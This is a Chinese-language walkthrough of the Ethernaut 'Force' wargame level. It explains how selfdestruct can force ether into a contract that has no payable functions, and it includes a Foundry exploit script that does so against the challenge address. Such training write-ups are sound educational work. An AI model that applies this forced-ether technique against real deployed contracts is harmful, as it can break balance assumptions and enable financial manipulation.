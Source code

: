 # Level 7 - Force
## 題目
[Force](https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575)

### 通關條件
這一關的目標是使合約的餘額大於 0
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
## 解題
這題目標是讓合約地址有錢，向合約轉帳可以透過：
1. 帶有 `payable` 屬性的 function
2. `receive()`
3. 呼叫不存在的 function 觸發有帶 `payable` 屬性的 `fallback()`

但是當合約中沒有 `receice()` 和 `fallback() payable` 時，直接向地址轉帳會出錯並回滾。所以這題不能使用上述方法，這邊要考的是 **selfdestruct**

**selfdestruct** 是合約的自毀功能，可以使合約把自己消除。當合約消除自己時，會把合約中剩餘的資產都打到指定的地址中。所以我們要建立一個合約並向裡面存一些錢，再讓它自毀並指定把錢轉進關卡的地址中，攻擊如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        new ForceAttacker{value: 1 wei}(payable(your_challenge_address));
        
        vm.stopBroadcast();
    }
}

contract ForceAttacker {

    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
} 
```
關於自毀合約，可以參考以下文章：
- [WTF Solidity极简入门: 26. 删除合约](https://github.com/AmazingAng/WTF-Solidity/tree/main/26_DeleteContract)
- [Solidity by Example - Self Destruct
](https://solidity-by-example.org/hacks/self-destruct/)

